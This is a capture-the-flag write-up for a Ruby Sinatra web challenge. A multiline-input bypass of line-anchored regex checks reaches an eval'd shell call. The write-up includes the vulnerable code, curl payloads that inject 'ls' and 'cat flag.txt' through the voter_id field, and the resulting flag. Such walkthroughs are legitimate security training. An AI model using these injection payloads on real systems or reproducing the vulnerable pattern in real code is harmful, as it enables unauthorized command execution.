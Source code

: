 # Verificiation or Execution - web

## Challenge

Look, this is supposed to be a simple checker for an ID to make sure its actually part of the early voting system, yet someone gained access to my system?!

There's only one field and I'm sure my regex is perfect!

## Solve

For this challenge, we are presented with a simple web application with a single text box where we can enter a `voter ID`: 

vveve

If we send a POST request without the `voter_id` parameter set, we can throw an error and hit the debug page:

ve.png

We can see the source code logic behind the application, and note that the webapp is built with Ruby using the Sinatra framework:

```ruby
    get '/' do
      erb :index
    end

    post '/' do
      voter_id = params[:voter_id]

      if !voter_id.match(/^[A-Za-z]{4}\d{4}$/)

        result = "Error: Invalid voter ID format. Expected 4 letters followed by 4 digits. Debug: did not pass /^[A-Za-z]{4}\\d{4}$/"
      else
        begin
          result = eval("`./votercheck.sh #{voter_id}`")
        rescue => e
          result = "Error: #{e.message}"
        end
```

The regex constrains us to strictly 4 letters followed by 4 numbers. However, this [article](https://www.yeswehack.com/dojo/dojo-ctf-challenge-winners-41) explained Ruby's weird regex behaviour which alllows us to get the flag:

> "The key vulnerability is that the match method in Ruby will return a match if any line in a multiline string matches the pattern."

So, if we send a multiline string where one of the lines matches the regex, and the other contains malicious input our input will be processed in `eval()`:

- First checked file structure with:

```bash 
curl -X POST http://3.105.27.130:8002/ -d $'voter_id; ls;\nABCD1234'
```

ve1

- And then read the flag with:

```bash
curl -X POST http://3.105.27.130:8002/ -d $'voter_id; cat flag.txt;\nABCD1234'
```

ve2

`secedu{h0_b0y_th3y'r3_in_we'3r_in_tr0ubl3_ar3n't_w3}`
